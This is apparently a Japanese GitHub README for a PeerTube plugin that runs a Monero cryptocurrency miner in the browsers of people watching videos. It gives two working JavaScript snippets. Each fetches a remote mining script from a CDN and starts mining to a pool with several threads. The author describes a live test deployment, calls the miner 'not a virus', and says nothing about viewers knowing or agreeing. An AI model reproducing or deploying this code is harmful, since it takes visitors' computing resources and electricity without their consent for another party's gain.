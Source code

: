 <div align="center">

<p><img alt="現代アート先輩 PeerTube Monero XMR Mining Plugin" src="./modenart-sempai.png" width="320" height="240"></p>

<p>Googleの検索エンジンに引っ掛からないから色々やっているんですが、中々ヒットしないから上の画像をalt付きで貼り付けたりと手を尽くしています。</p>

<p>このコードが新規にPeerTubeのプラグインを開発する方々の助けや参考になれば良いなと思っています。</p>

<p>・Github Pages<br>
<a href="https://pyu224.github.io/peertube-plugin-monero-miner/">https://pyu224.github.io/peertube-plugin-monero-miner/</a></p>

<p>・Repository<br>
<a href="https://github.com/PYU224/peertube-plugin-monero-miner">https://github.com/PYU224/peertube-plugin-monero-miner</a></p>

</div>

# PeerTube plugin Quickstart

See <a href="https://docs.joinpeertube.org/#/contribute-plugins?id=write-a-plugintheme">https://docs.joinpeertube.org/#/contribute-plugins?id=write-a-plugintheme</a>

下記のマイニングスクリプトを組み込めないかと色々やってみました。

開発者のNajm Ajmal様、ありがとうございます。

<a href="https://github.com/NajmAjmal/monero-webminer">https://github.com/NajmAjmal/monero-webminer</a>

Issueとかでご意見や改善案を出してくださると嬉しいです。

野獣動画2ndというPeerTubeのインスタンスで試験運用中です。

# このプラグインについて

PeerTubeでMonero（XMR）のマイニングをPeerTubeを見ている方々のマシンのリソースを利用して行います。

マイニングスクリプトというプログラムの性質上、よくウィルス扱いされますがウィルスではありません。

一応動くと思いますがまだまだ開発途上なので不具合や改善するべき点は多いですからご了承ください。

実は当初はプラグインを作ろうとは思わず、Najm Ajmal様が手本として載せた下記のコードをPeertubeの設定にそのままコピペしていました。

しかしそれをするとマイニングに必要な「wss://」から始まるWebSocketに接続できなかったため、このプラグインを開発しました。

```javascript
// Start Of Mining Code (Javascript)
var script = document.createElement("script");
script.src = "https://cdn.jsdelivr.net/gh/NajmAjmal/monero-webminer@main/script.js";
document.head.appendChild(script);

server = "wss://ny1.xmrminingproxy.com";
var pool = "moneroocean.stream";
var walletAddress = "4からスタートするMoneroのアドレス";
var workerId = "GH-XMR"
var threads = 2;
var password = "";
startMining(pool, walletAddress, workerId, threads, password);
throttleMiner = 20;
// End Of Mining Code
```

ChatGPTの手も借りながらプラグイン開発をしていましたが、実際の所としてはHTMLのサンプルをJavaScriptでそのまま貼り付けられるようにして変換しました。

そうしてできた下記のコードをPeertubeの設定欄にあるJavaScriptの項目に必要な設定部分を変更して貼り付けるだけで動作する事が分かりました。

```javascript
// 外部スクリプトを挿入
const externalScript = document.createElement("script");
externalScript.src = "https://cdn.jsdelivr.net/gh/NajmAjmal/monero-webminer@main/script.js";
externalScript.async = false;
document.head.appendChild(externalScript);

// 外部スクリプトのロード完了後に内部スクリプトを挿入
externalScript.onload = function() {
    console.log("Mining script loaded successfully.");

    const inlineScript = document.createElement("script");
    inlineScript.textContent = `
        server = "wss://ny1.xmrminingproxy.com";
        var pool = "moneroocean.stream";
        var walletAddress = "4からスタートするMoneroのアドレス";
        var workerId = "GH-XMR-JavaScript";
        var threads = 2;
        var password = "";
        startMining(pool, walletAddress, workerId, threads, password);
        throttleMiner = 20;
    `;
    document.body.appendChild(inlineScript);
    console.log("Mining started.");
};

externalScript.onerror = function() {
    console.error("Failed to load the mining script.");
};
```

数日間の悪戦苦闘は徒労だったんですが、他の方がプラグインを新規に開発するにあたりこのプラグインは残しておく事にします。

# 使い方

<div align="center">

<img alt="現代アート先輩 PeerTube Monero XMR Mining Plugin" src="./setting.png">

</div>

画像で大体伝わると思いますが、Moneroのウォレットのアドレスは4から始まるアドレスにして入力、プラグインの設定をアップデートして更新すれば自動でJavaScriptが挿入されてマイニングが始まるはずです。

# ご支援とかリンクとか色々

・NPM（Peertubeのプラグインを公開しているページ）

<a href="https://www.npmjs.com/package/peertube-plugin-monero-miner">https://www.npmjs.com/package/peertube-plugin-monero-miner</a>

・プロフィール

<a href="https://x.com/PYU224">https://x.com/PYU224</a>

<a href="https://linksta.cc/@pyu224">https://linksta.cc/@pyu224</a>

・ご支援とか（Misskeyサーバーの規約と寄付の方法が載っています）

<a href="https://github.com/PYU224/misskey-data">https://github.com/PYU224/misskey-data</a>